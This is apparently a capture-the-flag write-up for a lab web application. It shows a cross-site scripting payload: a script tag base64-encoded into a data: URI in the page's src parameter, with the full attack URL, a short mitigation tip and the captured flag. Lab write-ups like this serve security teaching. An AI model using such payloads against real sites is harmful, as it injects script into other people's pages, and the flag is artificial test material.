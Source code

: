 # Image link XSS

There is an image link on the main page: http://{ip}/?page=media&src=nsa
Changing the src parameter we get a wrong answer page but what's interesting is that with for example &src=test123 the html will contain an object tag with our data: 

![](./object_tag.png)

By encoding javascript into the url using base64 we can get the flag:

`<script>alert(1);</script>` 

base64-> `PHNjcmlwdD5hbGVydCgxKTs8L3NjcmlwdD4=`

http://{ip}/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTs8L3NjcmlwdD4=


# Mitigation

Preferably don't allow users to input data into url tags. If you need to, then use a library to sanitize URLs server side.

Flag: 928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d
